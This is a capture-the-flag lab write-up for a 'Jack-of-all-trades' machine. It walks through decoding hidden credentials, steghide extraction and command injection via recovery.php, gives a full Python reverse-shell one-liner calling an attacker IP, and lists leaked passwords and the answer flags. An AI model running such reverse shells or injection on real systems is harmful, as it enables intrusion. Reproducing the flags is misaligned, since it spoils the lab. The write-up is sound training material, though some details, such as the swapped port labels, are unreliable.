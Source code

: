 ## Recon
### nmap Scan
```
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- It have two open port `22` and `80` both running webserver i don't know how to access i just google it come know that we can access 22 via webserver for firefox `about:config`search for `network.security.ports.banned.override` and add in string `22`
- Go to that ip with port 22 just do `CTRL+U` to view source and got this base64 `UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==` after decoding got this `Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq` and also get this `recovery.php`
- after access `recovery.php` got another base64 `GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=` Just google for Johny Graves and decode u will got this message `Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S`
- Just download image from main ip with port 22 and use this commnad `steghide extract -sf header.jpg` enter the passphrase which we get from above base64 from first one `u?WtKSraq`

```
cat cms.creds
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```
- after access http://ip:22/recovery.php just add `?cmd=` to get the Reverse Shell use this for python 

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.98",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

- use this for stable shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
- after going to home directory found password file use with hydra get the jack ssh password ssh password 

```
ITMJpGGIqg1jn?>@
```

### User flag

```
securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1nr3}
```
- use strings command for root flag
## Root flag

```
securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}
```
